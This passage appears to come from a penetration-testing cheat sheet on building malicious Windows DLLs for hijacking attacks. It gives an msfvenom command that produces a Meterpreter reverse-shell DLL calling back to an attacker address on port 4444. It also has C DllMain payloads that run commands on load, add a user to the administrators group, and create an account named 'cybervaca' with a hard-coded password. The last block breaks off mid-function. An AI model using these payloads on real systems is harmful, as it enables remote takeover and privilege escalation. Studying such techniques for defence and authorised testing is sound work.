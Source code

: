 ## **Creating and compiling Dlls**

### **Meterpreter**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```

### Your own

Note that in several cases the Dll that you compile must **export several functions** that are going to be loaded by the victim process, if these functions doesn't exist the **binary won't be able to load** them and the **exploit will fail**.

```c
// Tested in Win10
// i686-w64-mingw32-g++ dll.c -lws2_32 -o srrstr.dll -shared
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
    switch(dwReason){
        case DLL_PROCESS_ATTACH:
            system("whoami > C:\\users\\username\\whoami.txt");
            WinExec("calc.exe", 0); //This doesn't accept redirections like system
            break;
        case DLL_PROCESS_DETACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
    }
    return TRUE;
}
```

```c
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
    if (dwReason == DLL_PROCESS_ATTACH){
        system("cmd.exe /k net localgroup administrators user /add");
        ExitProcess(0);
    }
    return TRUE;
}
```

```c
//x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
//x86_64-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a

#include <windows.h>

int owned()
{
  WinExec("cmd.exe /c net user cybervaca Password01 ; net localgroup administrators cybervaca /add", 0);
  exit(0);
  return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
  owned();
```